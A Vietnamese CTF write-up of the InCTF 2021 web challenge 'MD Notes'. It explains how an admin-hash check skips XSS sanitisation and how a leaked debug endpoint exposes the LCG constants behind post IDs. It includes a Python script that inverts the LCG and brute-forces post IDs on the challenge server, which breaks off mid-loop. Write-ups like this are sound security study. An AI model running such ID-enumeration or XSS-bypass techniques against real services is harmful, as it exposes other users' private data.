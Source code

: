 ```yaml
---
layout: post
title: "WRITEUP INCTF 2021: WEB"
categories: CTF
toc: true
---
```


Lâu rồi mình cũng không viết writeup, hôm nay có giải inctf 2021 rating 70 với mình thấy challenge cũng hay nên mình viết lại một số bài mà mình giải quyết được.
Source code và payload của các bài mình giải được mình bỏ ở đây nhé.
[SOURCE](https://github.com/DauHoangTai/CTF/tree/master/2021/inctf)

## Challenge MD Notes
Bài này là một bài xss và được viết bằng golang. Mình sẽ tập trung vào file `server.go`.
Cụ thể ở function `createHandler`.
![image](https://user-images.githubusercontent.com/54855855/129487635-775f2a92-1c36-4dd3-9d7a-59c7fad1704d.png)
Mỗi bài mà chúng ta tạo đều có hash riêng và nếu như hash đó bằng với hash_admin thì không có `sanitize`.

Function `sanitize`
![image](https://user-images.githubusercontent.com/54855855/129487683-2a439e10-b9f3-4287-aa61-106caa71181b.png)

Ở func này chỉ có chức năng là EscapeString (htmlencode) chống mình xss.
=> Mình chỉ cần tìm ra `admin_hash` thì có thể nhảy qua được `sanitize` và xss bình thường.

Sau một hồi stuck vì không biết kiếm cách nào để lấy được `admin_hash` thì đọc func `save_post`
![image](https://user-images.githubusercontent.com/54855855/129487765-da2dc35b-91c9-47f3-90fa-77e21eaf3d67.png)
postid được gen bằng `((CONFIG.seed * CONFIG.a) + CONFIG.c) % CONFIG.modulus`
Có thêm 1 api là `_debug`. Access nó thì ta lấy được `{"Admin_bucket":"b5cd7ae0-7b50-7ae0-7ae0-47a03b473015","VAL_A":245,"VAL_B":143}`.
```golang
CONFIG = Config{
		admin_bucket: os.Getenv("ADMIN_BUCKET"),
		admin_token: os.Getenv("FLAG"),
		secret: os.Getenv("SECRET"),
		admin_hash: getadminhash(), 
		modulus: 99999999999,
		seed: rand.Intn(9e15) + 1e15, 
		a: a, 
		c: c,
	}
```
Từ những data này thì ra có thể brute ra postid và dựa vô đó đọc solution của người khác =)) hay còn gọi là chôm flag và đây cũng là unintended của bài này.

### Payload
```py
from Crypto.Util.number import *
import requests
modul=99999999999
a=245
c=143
post_id=90462233978
for i in range(10000):
    tmp=post_id-c
    seed=tmp*inverse(a,modul)%modul
    print(seed)
    post_id=seed
    url="http://web.challenge.bi0s.in:5432/b5cd7ae0-7b50-7ae0-7ae0-47a03b473015" #admin_bucket
    r=requests.get(url+f"/{post_id}")
    if "not found" not in r.text: #and "name" not in r.text and "<script>fetch(" not in r.text
```
